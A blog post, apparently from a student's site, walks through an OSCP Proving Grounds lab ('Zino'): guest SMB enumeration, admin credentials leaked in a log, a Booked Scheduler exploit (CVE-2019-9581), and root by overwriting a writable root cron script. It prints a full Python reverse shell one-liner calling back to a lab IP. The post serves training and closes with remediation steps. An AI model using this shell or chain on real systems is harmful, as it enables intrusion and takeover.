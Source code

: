 ```yaml
---
title: 'Zino &#8211; Proving Grounds #1'
date: '2023-11-28T00:55:24+00:00'
status: publish
permalink: /2023/11/28/zino
author: William
excerpt: ''
type: post
id: 454
category:
    - 'Penetration Testing'
tag:
    - Tech
post_format: []
site-sidebar-layout:
    - default
ast-site-content-layout:
    - default
site-content-style:
    - default
site-sidebar-style:
    - default
theme-transparent-header-meta:
    - default
_yoast_wpseo_content_score:
    - '30'
_yoast_wpseo_primary_category:
    - '11'
astra-migrate-meta-layouts:
    - set
---
```

This was my first proving grounds lab of my OSCP. Took longer than I would have liked but I was able to pwn it in the end with a joyful fist pump and woop from my side. Any advice or comments on how I could improve this write-up would be appreciated.

#### Executive summary

The attacker was able to achieve privileged remote code execution on the target box. Issues found can be easily remediated by updating the software Booked Scheduler to V3.7.9 and restricting write permissions of a scheduled cron job.

#### Technical Findings

These are the steps I took to achieve privileged remote code execution in this lab.

Starting with a high-level scan of our target.  
![](https://i0.wp.com/i.imgur.com/PzhTifh.png?resize=704%2C357&ssl=1)

<span id="speechify-first-word-listening-nudge-root-12" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-12"><span id="speechify-first-word-listening-nudge-root-12" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-12">Of these lets</span></span> take a closer look at the smb ports  
![](https://i0.wp.com/i.imgur.com/YU0ToTg.png?resize=760%2C532&ssl=1)We see that guest is enabled on port 445. This combined with a quick enumeration of the shares using <span style="text-decoration: underline;">smbmap</span> we can log into our target using smbclient.  
![](https://i0.wp.com/i.imgur.com/V1QmpMi.png?resize=609%2C279&ssl=1)

Here we find our first flag **local.txt** along with a bunch of log files.

<span id="speechify-first-word-listening-nudge-root-12" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-12">50% DONE!!!</span>

Of these auth.log and misc.log have some interesting contents  
![](https://i0.wp.com/i.imgur.com/oEsCkHH.png?resize=903%2C84&ssl=1)

![](https://i0.wp.com/i.imgur.com/uKg3ptK.png?resize=720%2C122&ssl=1)Of these two misc.log is the most interesting as it has admin credentials in it. Ill be using this going forward.

<span id="speechify-first-word-listening-nudge-root-17" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-17"><span id="speechify-first-word-listening-nudge-root-17" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-17">With our initial</span></span> Nmap scan we found a webserver hosted on port 8003. On closer inspection we find a login portal with the version of the hosting software listed at the bottom. After a quick lookup of this software we find the following.  
![](https://i0.wp.com/i.imgur.com/cVRcvtR.png?resize=836%2C127&ssl=1)

Ill be using the seccond entry (50594.py) to exploit our target. This exploits the vulnerability CVE-2019-9581.  
![](https://i0.wp.com/i.imgur.com/zkWQAXl.png?resize=586%2C111&ssl=1)With remote code execution on our host we can now leverage this into a reverse shell using a generic Python reverse shell script.

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.215",21));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")’
```

![](https://i0.wp.com/i.imgur.com/iMu1dUe.png?resize=572%2C105&ssl=1)

<span id="speechify-first-word-listening-nudge-root-20" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-20"><span id="speechify-first-word-listening-nudge-root-20" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-20">SUCCESS. Now with</span></span> the reverse shell I can start looking around for what we have access to… To save you the headache I’ll fast track to the fun part. I find an interesting entry in the cron jobs folder.  
![](https://i0.wp.com/i.imgur.com/MGoJlKn.png?resize=807%2C384&ssl=1)There right at the bottom, there is a Python script run by the cron job with root privileges. Looking at the file in question confirms that we are able to edit it.  
![](https://i0.wp.com/i.imgur.com/hwPItPu.png?resize=705%2C38&ssl=1)

We write a Python script locally that will execute the generic reverse shell Python script we used earlier, but now because it will be executed in the root context we will get a root shell.

<span id="speechify-first-word-listening-nudge-root-20" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-20">So we write</span> the script and host it on our local HTTP server.  
![](https://i0.wp.com/i.imgur.com/REwW9wj.png?resize=680%2C180&ssl=1)Fetch that puppy overwriting the cleanup.py file! And now we wait with a netcat listener.  
After a minute and a quick coffee break we come back to this beautiful sight  
![](https://i0.wp.com/i.imgur.com/GJSys1g.png?resize=633%2C117&ssl=1)SUCCESS!!!!!

<span id="speechify-first-word-listening-nudge-root-23" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-23"><span id="speechify-first-word-listening-nudge-root-23" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-23">The flag can</span></span> be found at **cat /root/proof.txt**

Something to note is that you will run into issues if you try to use any ports other than those opened. It seems for this lab they closed all unnecessary ports in line with industry best practice.


#### Conclusion

<span id="speechify-first-word-listening-nudge-root-23" style="position: absolute; z-index: 10000;"></span><span id="speechify-first-word-listening-nudge-23">How to fix</span> this is quite simple. Here are 3 action times:

1. Update Booked Scheduler to 3.7.9 to prevent the initial foothold
2. Restrict write permissions on <span style="text-decoration: underline;">cleanup.py</span>
3. Ensure no user credentials are logged. And probably reroll admin and peter, using a more secure password this time ;D

All in all, this was a fun lab to start cutting my teeth on, don’t worry this is the first of many!